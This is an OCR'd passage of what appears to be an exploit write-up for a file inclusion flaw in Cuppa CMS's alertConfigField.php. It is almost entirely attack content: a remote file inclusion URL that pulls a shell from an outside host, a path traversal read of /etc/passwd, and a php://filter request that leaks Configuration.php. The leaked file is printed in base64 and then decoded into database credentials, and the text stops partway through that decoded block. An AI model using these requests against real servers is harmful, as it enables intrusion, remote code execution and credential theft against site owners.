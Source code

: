 ```bash
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?                
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd          
                                                                                                         
Moreover, We could access Configuration.php source code via PHPStream                                    
                                                                                                         
For Example:                                                                                             
-----------------------------------------------------------------------------                            
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../
Configuration.php                                                                                        
-----------------------------------------------------------------------------                            
                                                                                                         
Base64 Encode Output:                                                                                    
-----------------------------------------------------------------------------                            
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3Vwc
GEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcH
JlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1
pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJt
cDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZ
jsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2
RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7Cgk
JcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVf
bG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+                                                                     
-----------------------------------------------------------------------------                            
                                                                                                         
Base64 Decode Output:                                                                                    
-----------------------------------------------------------------------------                            

        class Configuration{                                                                             
                public $host = "localhost";                                                              
                public $db = "cuppa";                                                                    
                public $user = "root";                                                                   
                public $password = "Db@dmin";                                                            
                public $table_prefix = "cu_";                                                            
                public $administrator_template = "default";                                              
```